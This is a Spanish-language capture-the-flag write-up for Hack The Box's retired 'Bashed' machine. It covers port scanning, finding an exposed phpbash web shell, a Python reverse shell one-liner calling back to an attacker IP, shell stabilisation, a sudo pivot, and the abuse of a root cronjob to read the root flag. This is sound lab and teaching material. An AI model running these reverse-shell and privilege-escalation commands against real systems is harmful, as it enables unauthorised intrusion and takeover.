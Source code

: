 Hoy vamos a hacer la maquina `Bashed` la cual es una maquina retirada, dificultad EASY.

Requerimientos para esta maquina:

- nmap
- dirsearch/feroxbuster (o similar)
- conocimientos basicos de programacion
- wordlists

## Links utiles
- https://www.revshells.com/
- https://github.com/y3rb1t4/htb-arg/blob/main/00-my-notes/shell-interactive.md
- https://www.kali.org/tools/feroxbuster/
- https://github.com/DominicBreuker/pspy?tab=readme-ov-file

## User Flag

Primero vamos a empezar por scanear la maquina con nmap:

```shell
nmap --open -T4 --min-rate 5000 -sV -o open -Pn 10.10.10.68
```

Esto nos va a dar como resultado lo siguiente:

```shell
Nmap scan report for 10.10.10.68 (10.10.10.68)
Host is up (0.25s latency).
Not shown: 906 closed ports, 93 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 20:32:21 2024 -- 1 IP address (1 host up) scanned in 15.96 seconds
```

Con la informacion de que solo el puerto 80 esta abierto, nos vamos a dirigir a la pagina web y ver que podemos encontrar.

![web](./assets/web.png)

Por lo visto es una app llamada phpbash, la cual se usa para ejecutar bash desde el navegador. Como ya nos encontramos en el index y no veo ninguna otra url, vamos a intentar buscar directorios con `feroxbuster`:

```shell
feroxbuster --insecure -u http://10.10.10.68/ -m GET,PUT,POST -o ferox -w ~/Documents/Security/wordlists/common.txt
```

Dentro de la respuesta larga que obtuvimos hay una url que me resulta interesante la cual es `http://10.10.10.68/dev/phpbash.php`. Vamos a entrar a esa url.

![shell](./assets/shell.png)

Efectivamente tenemos una shell aca, vamos a aprovechar y hacer una reverse shell para obtener acceso a la maquina.

```shell
nc -lvnp 4444
```

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![reverse](./assets/reverse.png)

Una vez que tenemos acceso a la maquina, vamos a estabilizar la shell.

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL + Z
stty raw -echo ; fg
export TERM=xterm
export SHELL=bash
```

Para encontrar el user.txt lo que hice primero fue hacer un `cd /home` para ver los usuarios de ahi intente entrar a la home de ambos, tanto `arrexels` como `scriptmanager`. En la de `arrexels` encontre el user.txt.

## Root Flag

Ahora para la root, vamos a intentar algo simple, `sudo -l` para ver que podemos hacer con sudo.

```shell
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Asi que lo primero que vamos a hacer es pasarnos a `scriptmanager` con `sudo -u scriptmanager /bin/bash` y luego vamos a ver que podemos hacer con este usuario.

Viendo el root, hay una carpeta que solo el usuario puede acceder `scriptmanager` la misma se llama `scripts` y dentro de ella hay un archivo llamado `test.py`.

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

No tiene nada interesante, veamos si este archivo se esta usando en algun lado, para eso vamos a usar una herramienta llamada `pspy` la cual nos va a mostrar los procesos que se estan ejecutando en la maquina.

Para eso vamos a necesitar subir esto, como las maquinas de htb no resuelven github como para poder hacer un wget, vamos a tener que hacer un `python -m http.server` y luego hacer un `wget` desde la maquina.

```shell
python -m http.server 8000
```

```shell
wget <ip>:8000/pspy64
```

```shell
chmod +x pspy64
./pspy64 test.py
```

```shell
2024/02/19 16:46:09 CMD: UID=0     PID=1      | /sbin/init noprompt 2024/02/19 16:47:01 CMD: UID=0     PID=1502   | python test.py 
2024/02/19 16:47:01 CMD: UID=0     PID=1501   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/02/19 16:47:01 CMD: UID=0     PID=1500   | /usr/sbin/CRON -f 
```

Esperando un rato por lo visto hay un cronjob que esta ejecutando todos los archivos `.py` que estan en la carpeta `scripts`. Vamos a hacer un script sencillo para obtener el root flag.

```py
import os; os.system('cat /root/root.txt >> flag.txt')
```

Con esto cuando el cronjob se ejecute, va a escribir el contenido de `root.txt` en `flag.txt`.

![root](./assets/root.png)

Felicitaciones! Si llegaste hasta aca es porque lograste hacer el root de la maquina `Bashed` de Hack The Box. Espero que hayas aprendido algo nuevo.